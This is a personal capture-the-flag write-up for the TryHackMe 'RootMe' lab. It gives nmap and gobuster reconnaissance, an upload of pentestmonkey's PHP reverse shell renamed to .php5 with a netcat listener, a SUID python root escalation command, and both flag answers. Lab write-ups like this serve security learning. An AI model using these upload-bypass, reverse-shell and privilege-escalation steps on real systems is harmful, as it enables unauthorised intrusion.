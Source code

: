 2025-06-19 01:15

Status:

Tags: #CTF

# ROOTME

## Joining Room Using Open vpn 
- Installing open vpn 
	- ``sudo apt install openvpn``
	- ``sudo apt install network-manager-openvpn network-manager-openvpn-gnome ``
	- `` sudo reboot``
- configuration 
	- Download openvpnfile from tryhackme 
		- ``sudo cp errorcode09.ovpn /etc/openvpn 
	- open vpn 
		- ``sudo openvpn --config errorcode09.ovpn 
## Recon
- perforom nmap scan machine 
	- `` sudo nmap 10.10.76.57 -sV ``
- ouput 
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Find directories on the web server using the GoBuster tool 
```bash
gobuster dir -u  http://10.10.76.57/ -w /usr/share/wordlists/dirb/common.txt  
```
- output 
```bash
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.76.57/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.76.57/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.76.57/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.76.57/uploads/] 
```

## Getting a shell
1. upload payload in ``/uploads/ ``directory
2.  payload php from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
3. edit file 
	- ip = 10.23.129.129  (tun0)
	- rename = .php5
4. open netcat listener
	- `` nc -lvnp 12345 ``
5. find file name user.txt 
	- `` find / -name user.txt ``
		- `` /var/www/user.txt``
	- THM{y0u_g0t_a_sh3ll}
## Privilege escalation
1. Search for files with SUID permission, which file is weird?
	- ``find / -perm /4000 2>/dev/null ``
	- `` /usr/bin/python ``
2. search for python SUID in gtofbin
	- `` ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'``
3. run above command in the location of file 
	- `` /usr/bin/./python -c 'import os; os.execl("/bin/sh", "sh", "-p")' `` 
4. you become root and find root.txt file 
	- `` find / -name root.txt ``
		- `` /root/root.txt``
- get final flag 
	-  ``cat root.txt``
		- ``THM{p1v1l3g3_3sc4l4t10n}``

### References
